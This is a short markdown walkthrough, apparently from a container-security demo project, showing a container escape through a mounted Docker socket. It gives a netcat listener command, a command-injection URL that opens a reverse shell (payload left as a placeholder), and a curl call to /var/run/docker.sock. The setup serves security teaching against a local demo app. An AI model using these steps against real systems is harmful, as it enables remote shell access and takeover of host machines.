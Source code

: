 # Escape via socket

## Steps to reproduce
1. Start the demo app as described in the [README.md](../README.md).
2. Start a netcat listener on your system: `nc -lvp 4444`
3. Open `http://localhost:8888` in your browser.
4. Use the following URL path to exploit the demo app and get a reverse shell: `http://localhost:8888/?cmd={reverse_shell_script}`
5. Try to escape the container via the socket (`/var/run/docker.sock`).
6. Use `curl` to send a request to the socket. For example `curl --unix-socket /var/run/docker.sock http://localhost/images/json`

![Alt Escape diagram](../assets/img/Container-escape-via-socket.svg)